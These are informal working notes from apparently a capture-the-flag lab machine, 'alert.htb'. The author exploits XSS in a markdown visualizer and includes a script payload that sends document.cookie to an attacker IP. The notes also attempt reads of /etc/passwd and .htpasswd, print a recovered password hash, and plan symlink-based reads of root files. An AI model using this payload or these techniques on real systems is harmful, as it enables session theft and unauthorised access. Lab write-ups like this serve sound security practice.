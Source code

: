 xss attack involved somehow
messages.php file 
GET /visualizer.php?link_share=67a040e2ae3a13.51990107.md HTTP/1.1
Host: alert.htb
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Connection: close
Cache-Control: max-age=0

what is this link_share?
there is a link_share url that gets used first? how that work 
how is the linkshare url generated? not entirely sure 
67a040e2ae3a13.51990107.md
67a041a1813148.20603673.md

no cookies or anyhthing is used though?




2/3

<script>image = new Image(); image.src="http://10.10.14.8:8000/?c="+document.cookie;</script>
works locally 
- [ ] grab the link generated
- [ ] fuzz for the login site 
- [ ] send the link to the admin
http://alert.htb/visualizer.php?link_share=67a1462f3eded3.07935576.md

clicked on immediately but what data should they be sending over


└─$ ffuf -w /usr/share/dirb/wordlists/big.txt -request hackthebox/alert/request.txt -v -u http://alert.htb -fc
 301
this finds statistics
i think there is something related to the headers that are sent when we dont use the actual request that was captured in the burp proxy 
not sure what to send back 

need to enumerate more information using the js code exec

okay, cannot access the webpage for because of the access-control-allow-origin header disallows cross origin requests

what pieces of the puzzle do i have?
i have xss attack and can take data
doesnt seem like i can access the statistics page because of the cors origin header

http://alert.htb/visualizer.php?link_share=67a161c8046ca0.39489592.md 
trying to hit the /messages endpoint also doesnt do anything it seems
there might be other hidden links?


- [!] statistics
- [x] messages
    <-- was missing the .php extension
- [ ] write code to automate the exfiltration instead of doing it manually please 

"GET /?c=%3Ch1%3EMessages%3C/h1%3E%3Cul%3E%3Cli%3E%3Ca%20href=%27messages.p
hp?file=2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C/a%3E%3C/li%3E%3C/ul%3E HTTP/1.1" 200 -


cannot read this file, but let's try other files
/etc/passwd not working so we can only read certain types of files?
htpasswd doesnt seem to be working
/etc/passwd not returning anything 
not sure if the file read is actually working tbh

might be the links that work do not return an actual header so maybe there is some other way to access them?
both of the ones do not return anything
it could also be that they are not readable by the current user
/etc/passwd 
/etc/apache2/htpass/.htpasswd
ok it might be the case that we got data back but we cannot parse it properly actually 
it's probably not working because we're getting back a promise maybe?

- [ ] upload md file
- [ ] send contact request and parse the data received


<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>

fbe8fbe29c9f75972ff9ae4456d2cf26


tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      1 10.10.11.44:40130       8.8.8.8:53              SYN_SENT    on (6.02/3/0)
tcp        0     36 10.10.11.44:22          10.10.14.8:60886        ESTABLISHED on (0.21/0/0)
tcp        0      0 127.0.0.1:34766         127.0.0.1:80            TIME_WAIT   timewait (53.18/0/0)
tcp        0      0 127.0.0.1:34764         127.0.0.1:80            TIME_WAIT   timewait (53.18/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)

something running on port 8080 but it's not working?

i currently do not know what to look for in this code 
not sure how to use the monitoring software to elevate my privileges and also not sure how the user/group permissions works to get me root access
monitor.php uses configuration.php 
the code is saying for each monitor 
get some information about the monitor

important files:
config <- management group  (which we are in)
    config defines the path 
monitor.php <- uses config
monitors <- contains soft link to /etc/shadow and /root.txt <-- someone probably worked on this box before i did maybe? No, actually I think we can read these files using our put contents 
so we can control the PATH value 
can i put a shell somewhere in file get contents and putcontents?ls
so no need for a reverse shell we can do a file read 
curl_exec <-- seems we can get code exec from this maybe?
cannot modify monitors.json unless we can write to it somehow 
if the file exists for some name, then retrieve its contents and decode the json data 
then combine the data with the new data and truncate by 60 "somethings" so we only have the most recent data 
what hapepns if we decode non json data?
how frequently is the monitoring code called also? when does it get called?
no cronjobs i think so yea not sure when the code gets called 
we can call it with our php code maybe
permission failed if we just try to call it manually 
no cron jobs for root i think 
if we take the service down, does it start up again?

okay, regathering the pieces:
1) how do we get the monitor.php file to run / exec?
    <-- no cron tabs are available for root 
    <-- running php monitors.php gives us a permissions error 
2) what do we modify in the configuration.php file in order to get code exec?

much easier than this; no need to modify the configuration.php file or anything like that 
the application is already running as root so accessing files on the web portal will give us the ability to read root files / files with strong permissions


is there a file_get_contents injection?
seems like i cannot create a link 
- [ ] make a separate directory in /home/albert/monitors/alert.htb as a soft link to root.txt
- [ ] cd










